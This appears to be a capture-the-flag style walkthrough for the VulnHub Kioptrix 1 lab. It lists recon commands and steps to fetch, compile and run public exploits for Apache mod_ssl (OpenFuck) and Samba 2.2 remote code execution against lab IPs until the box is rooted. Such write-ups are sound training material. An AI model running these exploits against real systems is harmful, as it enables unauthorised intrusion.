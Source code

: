 # Kioptrix 1 - VulnHub

**netdiscover -i eth0**

![kio1](https://user-images.githubusercontent.com/15195048/95851963-4b32d000-0d53-11eb-801a-7851796a3b23.png)

**IP 192.168.1.10**

**nmap -sC -sV 192.168.1.10**

![kio2]https://user-images.githubusercontent.com/15195048/95851965-4c63fd00-0d53-11eb-9b2a-855be54df5ba.png

## 1. Exploiting Apache 

OpenSSH 2.9p2 (protocol 1.99)
Http mod_ssl/2.8.4
This module provides SSL v2/v3 and TLS v1 support for the Apache HTTP Server. 
Exploits: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow 

**searchsploit mod_ssl**

![kio3]https://user-images.githubusercontent.com/15195048/95851966-4cfc9380-0d53-11eb-911e-2d0536d6b4b3.png
 
## A) ExploitDB 
Link:https://www.exploit-db.com/exploits/764
number of errors
FIX
https://medium.com/@snowshoe/how-to-compile-openfuckv2-c-69e457b4a1d1

## B) GITHUB

Link:https://github.com/exploit-inters/OpenFuck

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
git clone https://github.com/heltonWernik/OpenFuck.git
apt-get install python3.8-venv
apt-get install libssl-dev
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck
./OpenFuck 0x6a 192.168.80.145 443 -c 40
error
./OpenFuck 0x6b 192.168.80.145 443 -c 40 works
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


![kio4]https://user-images.githubusercontent.com/15195048/95851969-4cfc9380-0d53-11eb-98d4-8b7642f08530.png

## 2. Samba Exploit

** 1.enum4linux -a 192.168.1.10

2.smbclient 192.168.1.10 or smbclient -N -L \\192.168.1.10\\

3.nmap -p 139 --script=smb-vuln* 192.168.1.10

4.smbmap -P 139 -H 192.168.1.10 **

5.samba_version.py Github
https://github.com/amitn322/smb-version/blob/master/samba_version.py
python smb-version/samba_version.py -s 192.168.1.10

![kio6]https://user-images.githubusercontent.com/15195048/95851970-4d952a00-0d53-11eb-9d2a-27844dc33287.png

Samba2.2
searchsploit samba 2.2

![kio27]https://user-images.githubusercontent.com/15195048/95851974-4e2dc080-0d53-11eb-9467-a88125c91e68.png


Samba < 2.2.8 (Linux/BSD) - Remote Code Execution


https://user-images.githubusercontent.com/15195048/95851978-4ec65700-0d53-11eb-8007-ac8f11e13e5f.pnghttps://user-images.githubusercontent.com/15195048/95851983-4ec65700-0d53-11eb-98ea-370a424c4437.png

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gcc 10.c
./a.out -b -o 192.168.1.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![kio8]https://user-images.githubusercontent.com/15195048/95851983-4ec65700-0d53-11eb-98ea-370a424c4437.png

Rooted
